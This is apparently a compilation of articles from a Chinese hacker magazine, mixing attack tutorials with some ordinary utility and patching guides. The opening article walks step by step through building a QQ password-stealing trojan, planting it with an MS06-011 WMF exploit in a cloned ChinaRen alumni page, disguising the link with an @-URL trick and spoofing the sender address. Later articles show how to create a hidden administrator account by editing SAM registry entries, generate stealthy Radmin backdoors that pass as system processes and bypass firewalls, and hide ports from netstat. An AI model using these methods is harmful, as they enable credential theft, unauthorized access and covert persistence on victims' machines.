首先点击邮件正文中的“班级地址”链接，打开正常登录的网页，可以看到 ChinaRen 的站点链接为：“http://alumni.chinaren.com/class/class_index.jsp?classuuid=2815032345891178195”（如图2）。现在我们要将这个网页保存下来，并在此基础上制作成钓鱼网页。


图3

##### 三、制作钓鱼网页

利用钓鱼网站进行攻击有许多方法，这里我们就讲解最简单的一种，直接将刚才保存的网页制作成木马网页，通过盗号程序盗取被攻击者的 QQ 号和密码。制作木马网页的方法，还是利用最新的 MS06-011 漏洞进行，由于这几期杂志上已经作过讲解，因此在此只简略进行介绍。

###### 步骤一：准备盗号程序

这里使用“QQ密保大盗”，运行程序后填写发信邮箱名、服务器和用户名，并输入用来接收 QQ 密码账号的邮箱地址（如图4）；最后点击“生成木马”按钮，生成盗号程序 qq.exe。

###### 步骤二：编辑木马网页

将盗号程序上传到网站空间中，假设网址为“http://binghewu.51.net/qq.exe”；下载 MS06-011 网页木马制作程序，打开其中的“制作.bat”文件，将“[木马地址]”改为上面的地址。保存后执行，在“ttt”文件夹中生成图片“exploit.wmf”和网页“index.htm”。将 exploit.wmf 上传到 qq.exe 所在空间中，打开 index.htm，将 iframe 中地址改为 exploit.wmf 的实际地址，并删除页面尾部版权字样。


###### 步骤三：生成钓鱼网页

用记事本打开前面保存的网页文件“class_index.jsp?classuuid=... .htm”，复制刚才“index.htm”中的所有内容，追加到该文件尾部并保存，即可生成用于盗 QQ 号的木马网页（如图5）。将其上传到空间中，假设地址为“http://binghewu.51.net/class_index.jsp?classuuid=... .htm”。


##### 四、制作钓鱼邮件

现在我们要制作一个钓鱼邮件，让接收到邮件的人都去访问我们生成的 QQ 盗号木马网页。

###### 步骤一：导出原邮件

钓鱼邮件是在 ChinaRen 邮件基础上制作的。先在 Foxmail 中选择要导出的邮件，点击“文件”→“导出邮件”，即可导出为 *.eml 格式（如图6）。


###### 步骤二：撰写 HTML 邮件

双击导出的 eml 邮件，用 Outlook Express 打开，点击“转发”。先清理正文窗口中的“To:”后收件人地址，粘贴到“抄送”框；再删除正文中不必要的转发信息（如 Subject、Send、From 等），并修正“主题”乱码（如图7）。


###### 步骤三：制作钓鱼邮件

在“格式”中选择“多信息文本（HTML）”和“同邮件一起发送图片”，并在“查看”菜单勾选“编辑源文件”。在撰写窗口切换到“源文件”选项卡，编辑 HTML 源码，定位到链接代码并将 href 修改为木马网页地址；切换回“编辑”后显示文本正常，但点击后将打开木马网页（如图8）。

```html
<A class=blue style="TEXT-DECORATION: underline" href="http://yemao_17.alumni.chinaren.com" target=_blank>
yemao_17.alumni.chinaren.com
</A>
```


##### 五、进一步伪装诱饵

别人点邮件中的链接，打开木马网页后，显示的与正常的同学录网页是一模一样的，但是在地址栏中却容易被人看出破绽，因此需要对窗口中的地址栏进行一下伪装隐藏。

返回刚才的“源文件选项卡”，将“href=”后的网址链接改为：“http://alumni.chinaren.com@binghewu.51.net/class_index.jsp?classuuid=2815032345891178195.htm”。可以看到，我们在网页木马地址前加上了正常的中国人地址和一个 @ 符号，在 IE 浏览器中 @ 前的网址是被当作数据提交到后面的网址的，因此其实访问的地址还是木马网页。经过一番伪装后，普通用户是很难从地址栏中的网页链接看出什么破绽了（如图9）。


##### 六、伪装发件人

在原来的真实 ChinaRen 网站邮件中，可以看到发信人地址是“mailmaster@chinaren.com”，如果我们直接将修改过后的邮件发送给别人的话，发信人地址将会显示所用邮箱地址，很易被人察觉怀疑，因此我们需要伪造发信人地址为“mailmaster@chinaren.com”。

首先将刚才修改过后的邮件保存，然后在 Outlook Express 中点击菜单“文件”→“另存为”，将保存后的邮件导出为 .eml 格式文件（如图10）。

下载并执行一个名为“邮件快递（Mail Express）”的邮件发送工具，点击界面中的“读入”按钮，浏览选择刚才导出的邮件（如图11）。读入要发送的邮件后，就可以伪造发信人地址了，在“寄件人”中和“域”前都输入地址“mailmaster@chinaren.com”，在“收件人”中输入收信人的地址，“主题”使用原有邮件的主题即可（如图12）。点击右下角处的“钥匙”按钮，打开邮件发送服务器设置对话框，在里面填写任意用来发送邮件的邮箱登录账号和密码（如图13）。点击确定按钮后，再点击界面中的“发信”按钮，即可开始发送邮件（如图14）。

当别人接收到这封邮件后，将会看到“发信人”中显示的地址是“mailmaster@chinaren.com”，与原来的邮件几乎是一模一样的（如图15）！如果不看邮件的源码，是无法发现这封邮件中的“秘密”的。在试验过程中，几乎许多有经验的用户都被欺骗了，成功地连接到了我的木马网页上！——这次网络钓鱼的测试，再次证明了在网络上没有什么是可以完全信任的，提高安全意识和知识才是保身之道！

（本文中所涉及到的阿拉 QQ 大盗、MS06-011 网页木马生成器和邮件快递已收录到光盘中）


## WinConnect ServerXP

### ——终极再现 XP 远程多用户登录

风卷玉箫


今年第3期的《黑客X档案》上有一篇名为“Windows XP SP2实现多用户登录”的文章，文中提到使用2055版本的 termsrv.dll 文件替换当前 XP SP2 中的同名文件即可实现多用户登录。但此法仅支持2人同时登录，与 Server 版的真正多用户登录比起来，还是有些少。那么有没有办法让 XP 突破2个用户的限制而真正支持多用户登录呢？前几天上网时发现了一款名为 WinConnect ServerXP 的软件，终于找到了让 XP 实现远程多用户登录的终极方案。

首先，在要实现多用户登录的装有 XP 操作系统的计算机上安装 WinConnect ServerXP，安装成功后软件要求重新启动电脑，选择重启。重启进入系统后，出现测试版试用期为7天的提示，如图1。这是因为我们使用的 WinConnect ServerXP 是测试版，有使用时间限制，使用注册码进行注册后就不会出现这个提示框了。


我用两台计算机同时使用 Administrator 用户登录该台电脑，它并没有黑屏退出，也就是说各个会话连接之间是相互独立、互不影响的，这样就实现了多用户登录机制。并且，我发现跟 Server 版一样，此时，同一个账户可以建立多个连接会话。点击某个连接会话，可以查看该会话连接打开的进程信息，如图2。


选中某个连接会话，选择“动作”→“发送信息”菜单或单击工具栏上的“发送信息”按钮，可以向目标连接会话发送信息，如图3、图4。


选择“动作”→“影子”菜单或单击工具栏上的“远程控制”按钮，可以发起远程控制的连接请求，在出现的对话框中的组合键是用来结束远程控制的。例如，此处我选的组合键是 Ctrl+Tab，远程控制完毕后，如果想结束远程控制，可以按此组合键，如图5。


该软件的远程控制功能不但可以控制 Console 会话，还可以控制其他连接会话。不过，在发起远程控制请求时远程主机会弹出一个确认对话框，如图6。


很是烦人，好在软件允许对此处进行相应的设置：先选中目标会话，选“动作”→“用户设置”菜单或在右键菜单中选择“用户设置”，在窗体右侧出现设置选项，如图7。


双击窗体右侧的“远程控制设置”选项，在出现的“远程控制设置”对话框的下拉框中选择相应的设置即可，如图8。


- 1. 不启用——不启用远程控制功能；
- 2. 启用（允许输入，通知用户）——启用远程控制功能，允许控制方键盘、鼠标远程操作，发起控制请求时弹出对话框要求对方确认；
- 3. 启用（允许输入，不通知用户）——同上，但发起控制请求时无须经过对方确认；
- 4. 启用（不允许输入，通知用户）——启用远程控制功能，但不能用键盘、鼠标进行远程操作，发起控制请求时弹出对话框要求对方确认；
- 5. 启用（不允许输入，不通知用户）——同上，但发起控制请求时无须经过对方确认。

不过，麻烦的是这个选项的设置必须重启才能生效，也算是该软件的一个缺点吧。

此外，我们还可以在“用户设置”中设置其他一些选项，如：是否允许 RDP 登录、是否允许从客户端使用初始化程序、是否允许断开连接后再连接、最大会话连接时间等。我们可以根据自己的需要进行相应的选择及设置。

先选中一个会话后，再选“动作”→“属性”菜单或单击工具栏上的“属性”按钮，可以查看该连接会话的有关信息，如图9。


图9


图10

双击“终端服务器”，可以查看终端服务器的一些属性，如图10。

选择窗体左侧的计算机节点，在右键菜单中选择“属性”，可以查看该计算机终端服务的全局配置信息并进行相应的修改，如图11。


图11

此外，每次登录，都会在任务栏中多出一个计算机模样的图标，右击该图标，会弹出一个菜单，如图12。其中，Windows Security 是调用任务管理器，而 Disconnect 是断开当前连接——并不是真正退出这个连接会话，只是暂时断开连接而已，我们可以重新进行连接。


图12

关于 WinConnect ServerXP 的介绍就基本上结束了。怎么样？是不是比2055版 XP 的支持双用户远程登录要强多了？我现在已经完全叹服于它的魅力，如果你也被它深深吸引了的话，还不赶快到网上下载试用一下。

> （文章中涉及到的 WinConnect ServerXP 及注册机请到黑客X文件论坛上下载）

### 菜鸟玩转局域网


学校机房局域网管理比较方便，这是为什么呢？因为机房管理人员总喜欢通过 Ghost 软件将一台已经装好系统和软件的电脑全盘克隆到其他所有电脑上，这样自然而然所有电脑的操作系统和默认设置都是一样的，用户名和密码当然也相同了。如此一来既有好处也有坏处，好处是我们管理局域网很方便，坏处是也方便了局域网入侵。

不过，今天我想说的是如何在局域网内部进行服务管理，比如启动、关闭、暂停某个服务等等。我们的操作呢？首先我介绍一个在视图界面下的操作。

- 步骤一：右击“我的电脑”选择“管理”，如图1。
- 步骤二：右击“计算机管理”选择“连接到另一台计算机”，出现如图2所示界面，在名称处我们输入对方的 IP 地址或者计算机名称，这样一来我们就可以连接到另外一台计算机了。比如我们输入 210.28.178.167，在出现的图3界面中输入远程计算机用户名和密码，按下“确定”便进入图4的管理界面。


图1


图2


图3


然后我们依次点“服务和应用程序”→“服务”便进入了远程服务管理界面（图5），在此我们可以对某个服务进行开启或关闭，比如要打开 `210.28.178.167` 的信使服务，只需双击 MESSAGE 服务并点击启动即可，如图6。

当然了，以上这些操作的前提是远程主机开启了 ipc$ 服务，而且我们有远程主机 administrators 组的权限。若对方未开启 ipc$ 服务将无法连接；若虽开启 IPC$ 但没有管理员组账号密码，也无法对服务进行开启和关闭。本质上是因为没有权限操作注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services`。


### 小知识1

限制 IPC$ 缺省共享：  
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\restrictanonymous`

- `0x0`：缺省
- `0x1`：匿名用户无法列举本地用户列表
- `0x2`：匿名用户无法连接本机 IPC$ 共享

说明：不建议使用 `2`，否则可能导致部分服务无法启动（如 SQL Server）。

### 小知识2

Windows 2000/XP 服务的一些信息位于注册表：  
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services`

在 `Services` 项下可查看各服务当前状态，并可通过修改键值实现手动启动、关闭或暂停服务。

如果你要体现技术水平，可以通过命令行方式启动/关闭服务。Windows XP 自带工具 `sc`，可用于本地和远程管理服务。

其操作参数如图7：`sc <server> [command] [serviceName] <option1> <option2>...`。其中 `server` 表示对方机器 IP 地址；若管理本机可省略。`command` 可为 `start`、`stop`、`query` 等；`service name` 为服务名。例如输入 `sc \\210.28.178.186 stop messenger`，表示远程停止 messenger 服务，如图8。

该操作成功的前提是本地当前登录用户在对方机器的 SAM 中存在且密码一致。若本地用户为 `123/123`，而对方仅有 `123/234`，则会出现 `[SC] OpenSCManager failed 5` 错误提示。

出现该错误是因为执行 `sc \\210.28.178.186 stop messenger` 时，本机会将当前用户名和密码提交给目标主机校验；若目标主机 SAM 中不存在该账号或密码不匹配，即认证失败。

SAM 文件是 Windows 2000/XP/2003 操作系统存放系统账号的文件，位置在 `C:\WINDOWS\system32\config\sam`。当得到这个 SAM 文件后可以通过其他软件进行爆破。

```bash
net user  表示查看本地的一些账号
net user 123 345 /add  表示加入一个用户名为123、密码为345的账号
net localgroup administrators 123 /add  表示将用户123添加到本地 administrators 组中
net user 123 /active:no  表示将123这个账号禁用
net user 123 /active:yes  表示将123这个账号启用
net localgroup administrators  表示查看本地在 administrators 组的所有用户
net localgroup  查看本地用户组
```


方法一：先建立一个 administrators 组权限的账号（如 jsj/123），然后右击 `c:\winnt\system32\cmd.exe` 选择“运行方式”，点击“下列用户”并输入用户和密码，即可用该身份运行 cmd.exe。方法二：在“开始→运行”中输入 `runas /user:jsj c:\winnt\system32\cmd.exe`，确认后输入密码即可。


因为使用 sc 远程开启服务没有提供用户名和密码参数，所以若要远程开启服务，需在本地建立与远程机器相同的账号密码后再运行。这里提供了两种简化方法供选择。

### 七步混沌建立隐藏账号

隽晓东  杨俊青

学校新建机房后设置了统一账号口令，但部分用户自行修改口令导致管理困难。作者尝试通过建立“隐藏账号”来用于管理登录，并说明该方式在“我的电脑→管理→本地用户和组”的常规查看中不易被发现，但实际操作步骤较多。

- 1. 以 Administrator 权限登录，打开 CMD，执行：`net user pc$ xiaofang /add` 创建账号（`$` 用于隐藏）。在命令行 `net user` 中不显示该账号，但在“计算机管理→本地用户和组→用户”中仍可见。


- 2. 在“运行”中打开 `regedt32`（不是 regedit），定位到 `HKEY_LOCAL_MACHINE\SAM\SAM`。该项默认受权限控制，需具备相应登录权限后再进行后续配置。

### 傻瓜黑客

用户 mxd 的权限未设置。单击“编辑”→“权限”（图3），在弹出的“SAM的权限”窗口中，“组或用户名称”内没有当前的登录用户 mxd（图4）。单击“添加”按钮，在“选择用户或组”窗口中点下面的“高级”按钮，从弹出的窗口中点“立即查找”按钮，从下面的一大堆用户中选中“mxd”，连续两次确定（图5）。回到“SAM的权限”窗口中后，选中刚刚出现的账号 mxd，然后将其权限的“完全控制”和“读取”均设置为“允许”（图6），确定。


- 3. 通过“运行”栏执行 regedit 打开注册表编辑，再定位于 `HKEY_LOCAL_MACHINE\SAM\SAM` 项。看到了吧，这回下面出现个“Domains”。继续定位至 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`，它的下面就是所有本机的账号。注意与 Names 项同级的若干个 00000XXX 之类的键，它们分别对应着 Names 下的各个账号。查看对应关系的方法是单击每个账号，此时在这个账号右侧窗格中就会出现一个类型值。像超级用户 Administrator 对应的就是固定的 `0x1f4`，也就是说 Administrator 对应的是 `000001F4`。对于建立的不同的个人账号，其对应的 00000XXX 是不同的。单击刚才用 net user 命令建立的 pc$ 账号，右侧窗格中显示的就是 `0x3ec`，说明账号 PC$ 对应的是 `000003EC`。单击选中账号 Administrator 对应的 `000001F4`，然后单击“文件”→“导出”菜单项（图7），命名为 `admin.reg`。同样，再选中账号 PC$ 对应的 `000003EC` 项，执行“文件”→“导出”，命名为 `pc_admin.reg`。接着，选中账号 PC$（与上两小步不一样），依然执行“文件”→“导出”，命名为 `pc$.reg`。


- 4. 在刚才导出的 `admin.reg` 文件上右键单击，选择“打开方式”，用“记事本”来打开它（不要双击，双击就会导入注册表）。它的格式与 `pc_admin.reg` 是完全相同的，包括 F 和 V 两部分。用鼠标拖动选择 F 部分的“hex:02”等内容（图8），复制一下。再用相同的方式调用记事本打开 `pc_admin.reg`，选中与 `admin.reg` 中相同位置的内容，按 Ctrl+V 粘贴一下。也就是说，用账号 Administrator 中的信息来覆盖账号 pc$ 中的相同位置信息，使 pc$ 具备超级用户 Administrator 相同的权限属性。保存一下 `pc_admin.reg` 文件，退出。


- 5. 再回到 CMD 窗口中，用 `net user pc$ /del` 命令删除账号 pc$。
- 6. 双击 `pc_admin.reg` 文件，确认后将其中的信息添加进注册表；同样，再双击 `pc$.reg`，也确认后导入注册表。
- 7. 先到 CMD 窗口中，输入 `net user` 命令查看一下（图9），看不到 pc$；再到桌面右键单击“我的电脑”选择“管理”，在弹出的“计算机管理”窗口中选择“本地用户和组”→“用户”，看到了吧，右侧窗格中也没有 pc$ 的身影（图10）。


最后用这个账号试一下，用户名为“pc$”，密码是“xiaofang”，成功登录，而且权限是超级用户。本文方法在 Windows XP 中试验证过，在 2000/2003 中应该也没有问题。

### “Unlocker”轻松删除顽固文件

经常使用电脑，相信大家都遇到过删除文件删不掉的现象吧。Windows 会自动弹出一个对话框：“无法删除 xxx：文件正被另一个人或程序使用！”。很郁闷吧，就算你明知它在那儿呆着，可你就是拿它没办法。

- 1. 你要操作的目标文件正在执行中。
- 2. 其他正在执行的程序正在调用这个文件。
- 3. 有其他同时登录到你的计算机的用户正在使用该文件。

普通的应对方法就是关掉那个正在运行的程序，或者到任务管理器中去查看进程，找到可能调用该文件的进程结束掉它，然后就有可能把它删掉了。但是有些时候有些很隐蔽或不常用的调用会让你很难找到，刚才的方法便不管用了。我向大家推荐一款软件 Unlocker，这是一款专门用来搞定这种无法删除文件的工具。


Unlock 是对在列表中选择的文件进行释放，Unlock All 是对列表中的所有文件进行释放。个人认为最常用的就是 Unlock All。选中后在下拉框里选择操作，然后执行。

Unlocker 的安装比较简单，在安装进行到选择组件时，有三个选项：检查更新、扩展、捷径。建议保留扩展项。


安装完成后会自动启动 Unlocker Assistant，并可设置为开机启动。若不需要，可在托盘图标菜单中去掉 autostart 前的勾选。随后在文件或文件夹右键菜单中可看到 Unlocker 项。


例1：删除正在看的 `123.avi` 会出现占用提示（图3）。  
例2：正在使用浏览器时删除整个 Firefox 文件夹，也会出现占用提示（图4）。

- 1. 右键单击 `123.avi`，选择 Unlocker，出现图5窗口。
- 2. 右键单击 Firefox 文件夹，选择 Unlocker，出现图6窗口。

Process 是调用该文件的进程名，Path locked 是被锁定的文件路径，PID 是进程号，Handle 是句柄。下方可选择操作：no action、delete、rename、move；右侧可 kill process。若处理单个或部分文件可先选中再 unlock；若要整体释放可使用 unlock all。


如果对象没有被其他程序调用，Unlocker 会给出可直接执行的操作框（图7），可直接删除、重命名、移动或不操作。文末说明该工具也常用于处理木马或病毒相关文件。

## Radmin应用全攻略

提起Radmin，许多菜鸟朋友都知道，也有许多人喜欢使用Radmin进行远程控制。比起那些木马来说，Radmin最大的特点就是运行稳定、速度快。不过，Radmin毕竟只是一款远程控制软件，在服务端程序的隐蔽性上是不能和木马相提并论的，鱼和熊掌不可兼得嘛。

为此，使用者想了各种各样的方法来增加服务端程序的隐蔽性，从简单的更改服务端程序的名称、连接端口，到复杂的配合使用Rootkit进行隐藏，正所谓八仙过海，各显神通。但是由于Radmin服务端程序的配置相对复杂，再加上服务端名称的修改，对于菜鸟来说非常困难。虽然网上有现成的服务端程序可以下载，但那些毕竟不是按照我们自己的意愿进行配置的。正巧前不久在网上发现了两款Radmin服务端程序生成器，今天就介绍给和我一样属于菜鸟的朋友。

### 一、Radmin服务端生成器

这款“Radmin服务端生成器”是由“黑客基地”推出的，它可以轻松地帮助用户生成相应的服务端程序，不但可以自定义端口、密码、进程名等选项，还增加了穿透防火墙的设置。运行该生成器后，在弹出的窗口中进行配置操作，窗口分为“生成设置”“穿透防火墙设置”“说明”这三个部分。

首先在“生成设置”中设置和服务端程序相关的选项，例如“进程名”程序就默认使用了资源管理器的进程名Explorer，用户当然可以根据自己的需要更改为其他的名称，比如iexplore、winlogon、svchost等；其他的“密码”“端口号”也根据自己的需要进行更改。“穿透防火墙设置”为用户提供了穿透金山、天网、瑞星、XP和2003系统防火墙的选择（图1）。设置完成后，点击“生成”按钮，生成器会自动调用附带的WINRAR中的default.sfx模块对文件进行解压、压缩、打包，最终完成属于我们的Radmin服务端。

通过对刚刚生成的Radmin服务端分析，知道只要一运行这个服务程序，程序会首先将文件自解压到系统的System32目录中，接着运行解压的脚本文件，最终完成Radmin服务端程序的安装。


### 二、RADMIN生成器

这个“RADMIN生成器”是由“一步江湖”推出的，这个生成器比上面那个生成器的配置内容更加全面，不但可以设置基本的“密码”“端口”“安装文件名”等基本信息外，还可以对服务端程序的安装服务进行设置，但是它却没有关于穿透防火墙的相关设置内容。

运行“RADMIN生成器”，首先在“安装文件名”选项中设置服务端程序的名称，也就是该服务端程序的运行名称，用户可以更改为其他和系统进程相同或相似的名称；接着设置服务端程序的安装服务，用户可以按照自己的想法设置“安装服务名”“服务显示名”“服务描述”等选项，可以自由发挥。当然我们也可以参照某个不起眼的系统服务来描写，不过这里需要特别注意，用户千万不能所有的信息都照抄系统服务，否则该服务会和系统服务发生冲突，使服务端程序无法正常运行。然后在“密码”和“端口”选项中设置用于服务端程序连接的端口和密码，端口号只能填写数字，最多5位，密码不妨采用特殊字符，如“#@$”等；最后点击“生成被控端”按钮，就会生成我们需要的Radmin服务端程序（图2）。

这个Radmin生成器的服务端封装，并没有采用WINRAR的自解压形式。在生成被控端的同时，生成器还生成了一个名为clear.exe的文件，它是用来清除被控端的。

生成器采用了RADMIN 2.1的服务端文件，生成的服务端程序只有一个文件，并无多余的DLL文件。服务端程序运行后，服务端程序将自动删除，并且刚刚的配置信息也不会写入注册表的`KEY_LOCAL_MACHINE\SYSTEM\Radmin`中，服务端程序的连接端口和密码将直接从封装的被控端中读取。除此以外，这个生成器生成的Radmin服务端程序做到了“四隐藏”，即隐藏端口、隐藏文件、隐藏服务、隐藏服务相关注册表键。

如果不想显示透明图标，可以通过写下面的注册表值来实现：

```reg
[HKEY_LOCAL_MACHINE\System\RAdmin\v2.0\Server\Parameters]
"DisableTrayIcon"=hex:01,00,00,00
```

点击生成器主界面的“释放控制端”按钮，即可生成一个Radmin Viewer 3.0汉化版的控制端，用户就可以直接使用它来进行服务端程序的连接了（图3）。到此为止，关于Radmin生成器的内容就为大家介绍到这，用户可以根据自己的要求选择适合的生成器进行使用，最终使自己轻松地通过Radmin进行远程控制操作。


（文章中涉及到的两款Radmin生成器已经收录在光盘中）

### 让微软替你守护秘密

如果文件涉及到个人隐私或行业机密，那么在保存和传送它们前一定要加密。但是网上流行的文件加密软件都是收费的，而且安全性实际上并不高，有经验的用户只要用WinRAR就可以破解。那么有没有免费而且好用的文件加密软件呢？当然有，它就是微软顺应增值计划推出的免费加密软件Microsoft Private Folder。尽管免费，但其安全性和兼容性都大大强过某些收费软件。

> 注意：此工具安装时需要连接到微软网站进行正版验证，因此请务必在线安装，而且仅支持Windows XP正版或大客户版用户使用。

#### 一、创建“密码箱”

使用前我们需要先创建一个“密码箱”，这实际上是个用来保存机密文件的特殊文件夹。双击桌面上的“我的密码箱”图标，就会出现“创建我的密码箱”向导，单击“下一步”可打开如图1所示的对话框，输入密码，按提示操作即可创建“密码箱”。

### 二、加／解密文件

“密码箱”的使用极其简单。同样双击“我的密码箱”图标，现在出现的是“打开我的密码箱”对话框，输入刚才设置的密码即可打开“密码箱”，如图2。其界面和“我的电脑”窗口差无二致，我们只要把要加密的文件或文件夹用复制、粘贴的方法拷贝进去，然后右键单击系统托盘里的金色锁状图标，选择“锁定我的密码箱”即可完成加密。

解密的操作同样是复制／粘贴，就不多说了。不过现在的问题是由于上述加／解密都是基于本机的，如果我想传送加密文件到异地，该如何操作呢？

别担心，微软已经想到了这一点。登录密码箱后，右键单击其系统托盘图标，依次选择“选项”→“导出加密文件”，打开如图3所示的对话框，单击“请选择目标路径”里的“浏览”设置好目标路径，单击“确定”即可把“密码箱”里的文件以加密状态导出。

传送文件到异地后，执行“选项”→“导入加密文件”，输入原密码箱的访问密码，即可把加密文件导入异地“密码箱”，然后你就可以复制／粘贴了。

（本文所涉及到的Microsoft Private Folder已收录到光盘中）


## SSM之捆绑分离

前些天，我从网上下载了一个“WinRAR通用注册机”，杀毒软件立刻报出了病毒（图1），注册机一般不应该报病毒的。我使用“反文件捆绑器”检查了一下，结果是没有捆绑程序（图2）。现在的捆绑机可是越来越强了，有些捆绑后还加上了壳，反捆绑软件都无法检测出来。如果只相信反文件捆绑器的检测结果，就会很容易中木马。


### 傻瓜黑客

文件捆绑，首先是把程序复制到寄主文件的结尾处，在运行捆绑的程序时，把寄主文件和捆绑的文件释放出来再运行。最基本的检测方法是在文件中查找MZ的个数，如果有2个或以上，那文件中就可能捆绑了程序。但是现在捆绑机会在捆绑好的外面加上一层壳，那这个方法就没有用了。

我们可以使用监控软件System Safety Monitor（下面简称SSM），先把语言设置成简体中文。运行WinRAR通用注册机，马上SSM拦截到WinRAR通用注册机试图调用的程序（图3），WinRAR通用注册机调用了CCG0.exe，我们点击CCG0.exe下的定位，来到CCG0.exe的目录，把CCG0.exe复制到其他目录。

再回到SSM点击阻止，点OK。马上SSM又拦截到WinRAR通用注册机试图调用CCG1.exe（图4），用同样的方法，复制CCG1.exe到其他目录，并阻止其运行。

来到复制出CCG0.exe和CCG1.exe的目录，看看这2个文件（图5）。先用杀毒软件进行查杀，发现CCG1.exe报出盗QQ的病毒。我们用PEiD查看壳（图6），明显是假装壳。通过监控发现这个盗号木马调用了Hook.dll，很像木头的QQ大盗。这次发现CCG1.exe是未捆绑的盗QQ木马，而CCG0.exe是真正的WinRAR通用注册机。


图3


图5


图4


图6

### 让菜鸟轻松打补丁

打补丁是我们的家常便饭，虽然有点笨，但绝对是防止入侵的一个必须要做的事情，尤其是在局域网中更为重要。很多网吧如此不堪一击与此也不是没有关系的。

这里可以看到最新的安全公告、安全工具等，点击主页面左侧“Security”里的“Security Bulletin Search”，在打开的页面中可以选择“产品/技术”和“微软知识库编号”来搜索，如图1。

#### 一、多种方法下载补丁

### 方法一：在Windows Update站点下载

单击“开始→Windows Update”或访问http://windowsupdate.microsoft.com/打开微软的官方更新网站，这种方法相信没有人不知道，所以不再多说。

##### 方法二：在微软安全站点下载

- 1. 打开http://www.microsoft.com/technet/security/，在页面中选择“产品/技术”和“微软知识库编号”进行搜索。
- 2. 如果选择“产品/技术”搜索，例如按Windows XP Professional的所有HotFix，可在“Product/Technology”中定位。


图1

选择“Windows XP Professional”。在“Service Pack”中可以选择补丁版本，在“Bulletin Release Date”中可以选择公告的日期。单击“Go”按钮就可以找到所有相关的补丁。

- 3. 在页面下方会显示搜索到的结果，打开结果中的链接。在安全公告页面中找到对应的下载地址，之后点击“Download the update”进入相应补丁下载界面，需要你选择下载语言。如果是简体中文，则在“Select language”中选择“Chinese Simplified”，再单击“Go”按钮即可进入补丁下载。

### 方法三：利用HFNetChk下载

- 1. 它是一个让你不用登录网站便可获得补丁更新信息的免费软件，下载安装HFNetChk。
- 2. 运行“cmd”命令打开命令提示符窗口，进入HFNetChk的安装目录，运行“hfnetchk -v”命令。开始软件会提示“attempting to download the CAB from: http://xml.shavlik.com/mssecure.cab”，稍等片刻后你会看到测试报告，如图2。


- 3. 每个补丁报告项目的后面都可以看到具体的解释，自带有其对应的微软知识库号，同样将这些号码记下来，找到相应下载链接进行下载。

### 方法四：手动快速下载Windows升级补丁

运行“开始→Windows Update→查看以寻找更新”查找升级补丁，点击“复查并安装更新”查看更新补丁的说明，然后点击“立即安装”。这时会跳出Windows Update的网页对话框开始下载补丁，选择“取消”，并退出升级。打开`C:\Windows\Windows Update.log`（系统盘符不同则路径同理），你所要的补丁下载地址都在这里，复制下载链接地址，用迅雷等下载软件下载很快就会完成。

#### 二、安装自动化

按照一般的安装方法不仅效率很低，而且需要重启计算机N次，所以在这里我向大家介绍一款工具QChain。

- 1. 首先将下载下来的补丁文件如a.exe、b.exe、c.exe和qchain程序一起放到`e:\hotfix`（举例文件夹）下。
- 2. 编写批处理如下：

```bat
@echo off
setlocal
set hotfix=e:\hotfix
%hotfix%\a.exe -z -q
%hotfix%\b.exe -z -q
%hotfix%\c.exe -z -q
%hotfix%\qchain.exe
```

保存为buding.bat放到`e:\hotfix`下。这里需要说明一下Windows Update的几个参数的含义：

> -u 无人参与模式，即unattended模式。  
> -z 在关机时强行关闭其他程序。  
> -o 覆盖OEM文件不提示。  
> -z 表示安装后不重新启动计算机。  
> -q 表示在安装过程中不出现提示信息。  
> -<参数列表> 列出安装的修补程序。

- 3. 做一个自解压程序：当然首先运行的程序一定要写上buding.bat，如图3。


- 4. 进行安装：直接运行我们做好的自解压程序就可以了，运行后如图4。


局域网为什么很容易入侵，有一个重要的原因就是补丁不及时更新。很多网管认为只要服务器做得天衣无缝就可以高枕无忧，其实网络安全和医生治病一样都来不得半点马虎。当然网管不打补丁的原因还有一个就是补丁下载安装都很麻烦，其实我们完全可以借助一些工具轻松完成我们的操作，这个工具就是wget。

#### 三、局域网中补丁安装一条龙

- 1. 在`c:\update`下编写一个简单的down.txt，格式为：  
  `http://xxxxxx.xxx.xxx/xxxx.exe`  
  每个下载地址独占一行。
- 2. 编写批处理：在`c:\update`下建立download.bat，内容如下：

```bat
REM 下载down.txt中指定的补丁程序
REM 日志信息写入log.txt，这样可以在下次下载时确保下载以前没有下载的补丁程序
wget -c -i down.txt -o log.txt
```

- 3. 把这个文件共享给局域网中其他计算机，在其他计算机新建一个`c:\update`的目录，新建一个update.bat的批处理。

```bat
@echo off
cls
net use z: \\服务器计算机\hotname 或者 IP地址\update
echo 正在从服务器复制安装补丁，请稍候...
for %%a in (*.exe) do if not exist c:\download\%%a.txt ...
for %%a in (*.exe) do if not exist c:\download\%%a.txt echo 已安装>c:\update\%%a.txt
```

我们首先在服务器补丁程序的位置添加到down.txt，然后到执行服务器上执行download.bat获取补丁，最后运行update.bat进行补丁程序的安装。有了本次经验，相信和我一样的菜鸟不会因为打补丁而苦恼了。

（本文涉及到的工具hfnetchk、qchain.exe、wget已收录到光盘中）

## 隐藏麻辣烫重现江湖

临床宋伟

### 一、应用程序和端口隐藏

### 1．应用程序隐藏之偏方

- （1）在某些情况下，我们需要隐藏任务栏中运行的应用程序，比如QQ、P2P软件等。在WINXP中打开任务栏属性，在“自定义”里选择要隐藏的应用程序，设为“总是隐藏”即可。


图1

- （2）第二种偏方只对某些应用程序有效。按Ctrl+Alt+Del打开任务管理器，结束Explorer进程，再“新任务”运行Explorer，可使部分程序在任务栏中不可见。


图2

### 2．应用程序隐藏之工具

- （1）WINDOWS窗口隐藏专家

WINDOWS窗口隐藏专家可以隐藏当前运行程序窗口，并可设置热键在需要时恢复。


图3

- （2）ZIGZAG CLEANER PLUGNER PLUG

该软件可通过在窗口外画Z、S或O形快速隐藏窗口，并在Symbols/Edit中配置隐藏方式，如ACT ALL WINDOWS、ACT ONLY WINDOWS IN Z AREA、ACT ONLY ONE ACTIVE WINDOWS等。


图4


图5

### 3．端口的隐藏

我们入侵的第一步往往是扫描（端口扫描）。因此端口隐藏是规避被发现的重要思路之一。

计算机端口的隐藏是必须要做的事情，我向大家推荐使用 `fhns.bat`，这是一个批处理程序。用记事本打开程序，找到如下代码：`type netstat.tmp|%systemroot%\system32\findstr.exe /v "\<127.0.0.1\> 4000"`，把 `4000` 换成我们想隐藏的端口即可……打开 CMD 输入 `fhns -na` 就可以实现端口隐藏。

## 二、局域网中的隐藏

- 1. 网上邻居的隐藏  
